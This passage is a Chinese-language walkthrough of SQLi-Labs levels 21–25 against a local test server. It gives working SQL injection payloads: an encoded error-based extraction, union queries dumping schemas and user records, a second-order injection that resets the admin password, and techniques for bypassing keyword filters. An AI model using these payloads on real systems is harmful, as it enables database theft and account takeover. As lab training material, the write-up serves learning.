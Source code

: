 `uname=YWRtaW4nYW5kKHNlbGVjdCAxIGZyb20oc2VsZWN0IGNvdW50KCopLGNvbmNhdCgoc2VsZWN0IChzZWxlY3QgKHNlbGVjdCBjb25jYXQoMHgyNSwoc2VsZWN0IHVzZXJuYW1lIGZyb20gdXNlcnMgd2hlcmUgaWQ9MSksMHgyNSkpKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgbGltaXQgMCwxKSxmbG9vcihyYW5kKDApKjIpKXggZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIGdyb3VwIGJ5IHgpYSkj`

***

**Less-22**

同Less-21，闭合改为"$uname"

***

**Less-23**

单引号闭合，过滤了注释符

通过联合查询语句闭合单引号构造payload

`http://127.0.0.1/sqli/less-23/?id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),'3`

`http://127.0.0.1/sqli/less-23/?id=-1' union select 1,(select username from security.users where id=2),'3`

***

**Less-24**

这一关index页面为注册账号并登录

通过查看`pass_change.php`的源码，登录后修改密码的sql语句为:
`$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";`

通过注册用户名为`admin'#`的账号，修改密码时sql语句会变成：
`$sql = "UPDATE users SET PASSWORD='123' where username='admin'#' and password='$curr_pass' ";`

sql语句执行后，admin账户密码被修改

![](https://upload-images.jianshu.io/upload_images/11356161-5bf14504aba0d9db.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

**Less-25**

![](https://upload-images.jianshu.io/upload_images/11356161-955ecfff342837ba.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

可知过滤掉了or && and

`http://127.0.0.1/sqli/less-25/?id=-1' union select 1,database(),3--+`

如何绕过字符过滤：

+ 编码
+ &&和||
+ 内联注释/**/
+ 重复写入

其实这一关直接联合查询是不需要管转义的
